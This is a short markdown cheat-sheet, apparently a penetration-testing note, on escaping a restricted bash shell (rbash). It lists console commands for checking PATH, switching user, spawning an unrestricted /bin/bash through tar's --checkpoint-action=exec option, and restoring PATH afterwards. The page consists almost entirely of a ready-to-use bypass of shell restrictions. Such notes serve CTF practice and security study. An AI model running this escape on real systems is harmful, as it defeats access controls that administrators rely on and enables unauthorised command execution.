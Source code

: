 ```yaml
---
title: "rbash"
date: 2024-7-9
tags: ["Rbash", "Shell", "Escape", "Tar", "Bypass"]
---
```


### Abuse #1: tar to rbash Escape

```console
# Before enter rbash
echo $PATH
```

```console
# Enter rbash
su <USER> -
```

```console
# rbash escape using tar
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

```console
# Paste the above $PATH (e.g.)
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
